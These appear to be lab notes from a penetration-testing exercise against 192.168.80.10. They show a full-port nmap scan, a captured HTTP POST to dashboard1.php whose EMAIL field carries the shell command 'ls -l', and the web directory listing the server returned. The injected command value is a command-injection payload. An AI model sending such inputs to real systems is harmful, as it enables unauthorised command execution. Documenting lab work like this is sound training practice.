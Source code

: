 Nmap done: 1 IP address (1 host up) scanned in 30.69 seconds








POST /dashboard1.php HTTP/1.1
Host: 192.168.80.10
Content-Length: 11
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.80.10
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.80.10/dashboard1.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=si290vt7lima3ur5knsk18msbg; id=test
Connection: keep-alive
EMAIL=ls -l








---
──(kali㉿kali)-[~/Downloads/crta]
└─$ sudo nmap -sS --min-rate 5000 -p- --open -n -Pn 192.168.80.10 -oN scan_80_10.txt

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-24 00:09 EDT
Nmap scan report for 192.168.80.10
Host is up (1.4s latency).
Not shown: 52653 closed tcp ports (reset), 12879 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1234/tcp open  hotline

Nmap done: 1 IP address (1 host up) scanned in 33.73 seconds
                                                                                                                                                                                   
┌──(kali㉿kali)-[~/Downloads/crta]
└─$ 



```bash
total 396
drwxrwxr-x 3 privilege privilege  4096 Jan 16  2025 Template Main
-rw-rw-r-- 1 privilege privilege 15114 Feb  4  2023 add.php
-rw-rw-r-- 1 privilege privilege 17191 Feb  4  2023 addemp.php
drwxrwxr-x 7 privilege privilege  4096 Feb  4  2023 assets
-rw-rw-r-- 1 privilege privilege 15326 Feb  4  2023 career.php
-rw-rw-r-- 1 privilege privilege   352 Feb  4  2023 config.php
drwxrwxr-x 2 privilege privilege  4096 Feb  4  2023 css
-rw-rw-r-- 1 privilege privilege 16218 Feb  4  2023 dashboard1.php
-rw-rw-r-- 1 privilege privilege 17915 Feb  4  2023 dashboard2.php
-rw-rw-r-- 1 privilege privilege 27081 Feb  4  2023 dashboard3.php
-rw-rw-r-- 1 privilege privilege   732 Feb  4  2023 dbcontroller.php
-rw-rw-r-- 1 privilege privilege   721 Feb  4  2023 down.php
-rw-rw-r-- 1 privilege privilege  5299 Feb  4  2023 emplogin.php
-rw-rw-r-- 1 privilege privilege  2498 Feb  4  2023 filelog.php
drwxrwxr-x 2 privilege privilege  4096 Feb  4  2023 fonts
-rw-rw-r-- 1 privilege privilege  5616 Apr 14  2023 index.php
```